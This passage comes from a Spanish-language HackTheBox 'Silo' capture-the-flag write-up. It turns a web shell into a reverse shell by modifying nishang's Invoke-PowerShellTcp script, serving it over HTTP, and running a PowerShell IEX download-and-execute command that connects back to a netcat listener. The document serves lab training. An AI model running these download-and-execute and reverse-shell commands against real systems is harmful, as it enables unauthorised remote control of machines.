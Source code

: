 Validamos:

![131page80_upfile_webshell_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/silo/131page80_upfile_webshell_done.png)

Listos, tenemos ejecución remota de comandos :) Establezcamos una reverse Shell...

Nos ponemos en escucha por el puerto que queremos recibirla:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Generaremos una **PowerShell** mediante el repo [nishang](https://github.com/samratashok/nishang) que tiene muchas utilidades, entre ellas, shells:

```bash
❭ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
❭ mv Invoke-PowerShellTcp.ps1 Itcp.ps1
```

Ahora modificaremos su contenido, tomaremos una cadena comentada y la moveremos al final del archivo sin comentarios, esto para que cuando hagamos la descarga del mismo mediante la web-shell lo interprete a la vez, por lo tanto leería los comandos para la reverse shell y se ejecutarían de una vez, dos pasos en uno ;)

Tomamos esta cadena del inicio:

```powershell
...
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
...
```

La movemos al final con nuestra IP y puerto:

```powershell
...
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.15 -Port 4433
```

Guardamos, creamos un servidor web rápidamente:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y ahora ejecutamos en la web-shell:

```html
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.15:8000/Itcp.ps1');"
```
